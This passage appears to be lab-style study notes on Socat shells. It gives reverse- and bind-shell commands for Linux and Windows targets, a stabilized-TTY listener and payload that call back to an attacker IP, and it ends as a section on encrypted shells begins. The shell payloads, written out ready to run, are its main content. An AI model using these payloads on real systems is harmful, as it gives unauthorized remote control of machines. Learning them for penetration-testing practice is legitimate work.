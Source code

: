 ### Reverse Shells
The following is the syntax for a basic reverse shell listener in Socat:

```console
Socat TCP-L:<port-number> -
```
On Windows, the command to connect back is as follows:

```console
socat TCP:<Local-IP>:<Local-Port> EXEC:powershell.exe,pipes
```
The "pipes" option is used to force Powershell (or cmd.exe) to use Unix style standard input and output.

The equivalent command for a Linux target is as follows:

```console
socat TCP:<Local-IP>:<Local-Port> EXEC:"bash -li"
```
The above commands are for very basic Socat listeners and payloads. A more advanced listener and payload can be setup when targeting a Linux machine with the following syntax:

```console
socat TCP-L:<Port-Number> FILE:`tty`,raw,echo=0
```
In the above listener command, we are passing in the current TTY as a file and setting the echo to be zero. This is similar to using CTRL+Z,`stty raw -echo; fg` trick with Netcat shells but with the added bonus of being able to immediately stabilize and hook into a full TTY.

The advanced listener can be connected with any payload; however, the following payload is very useful when targeting Linux machines:

```console
socat TCP:<Attacker-IP>:<Attacker-Port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane

# - pty: allocates a pseudo-terminal on the target.
# - stderr: makes sure that any error messages get shown in the shell.
# - sigint: passes any CTRL+C commands through into the sub-process.
# - setsid: creates the process in a new session.
# - sane: stabilizes the terminal attempting to "normalize" it.
```

### Bind Shells
On a Linux target, we would use the following command to create a bind shell:

```console
socat TCP-L:<Port-Number> EXEC:"bash -li"
```
On a Windows target, we would use the following command to create a bind shell:

```console
socat TCP-L:<Port-Number> EXEC:powershell.exe,pipes
```
Regardless of the target, we use the following command on the attacking machine to connect to the waiting listener:

```console
socat TCP:<Target-IP>:<Target-Port> -
```
## Task 7 - Socat Encrypted Shells
One of the many good things about Socat is that it's capable of creating both bind and reverse encrypted shells. To allow for encrypted shells, we first need to generate an SSL certificate. This can be done using OpenSSL which comes installed default on Linux machines with the following syntax:

